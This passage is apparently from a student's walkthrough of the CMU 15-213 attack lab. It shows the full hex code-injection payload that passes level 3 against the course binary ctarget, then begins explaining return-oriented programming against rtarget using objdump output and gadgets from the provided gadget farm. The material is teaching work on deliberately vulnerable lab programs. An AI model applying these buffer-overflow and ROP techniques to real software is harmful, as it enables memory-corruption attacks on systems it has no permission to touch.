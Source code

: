 and you should get something similar to below 
```
Cookie: 0x117fd061
Touch3!: You called touch3("117fd061")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id NoOne
        course  15213-f15
        lab     attacklab
        result  2018080106:PASS:0xffffffff:ctarget:3:48 C7 C7 80 25 61 55 C3 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 38 25 61 55 00 00 00 00 A0 1A 40 00 00 00 00 00 31 31 37 66 64 30 36 31
```
## PHASE 4 
phase 4 is different from previous 3 because on this stack target we can't execute code due stack randomization and non-executable memory block. however, according to pdf, we can use ROP (return oriented programming), instead of executing our own code, we look for instructions in the code that do the same thing as we want. We will be using rtarget instead of ctarget. Such segments in code are known as gadgets, and we wil use gadgets to perform our exploitation. 

First execute the following commands to get assembly code for rtarget

linux> objdump -d rtarget > rtarget.d

shown below
rtarget.d
---
000000000040194d <getbuf>:
  40194d:	48 83 ec 38          	sub    $0x38,%rsp
  401951:	48 89 e7             	mov    %rsp,%rdi
  401954:	e8 9e 03 00 00       	callq  401cf7 <Gets>
  401959:	b8 01 00 00 00       	mov    $0x1,%eax
  40195e:	48 83 c4 38          	add    $0x38,%rsp
  401962:	c3                   	retq 
---

BUFFER_SIZE=0x38
  
The general idea is to store the cookie in a certain position in the stack, and then if you can directly pop %rdi, you can directly enter the touch2 function. But there is no pop %rdi in gadget, so we need to find another way. After checking, I found that there are two sentences 

pop %rax 
movq %rax, %rdi

which can be put together to exploit the rtarget program, we can find this in the dissassembled code, there are a lot of functions and the ones we can pic are located between_start farm and end__farm. our two are 

rtarget.d
---
0000000000401b64 <getval_407>:
  401b64:	b8 c2 48 89 c7       	mov    $0xc78948c2,%eax
  401b69:	c3  
---
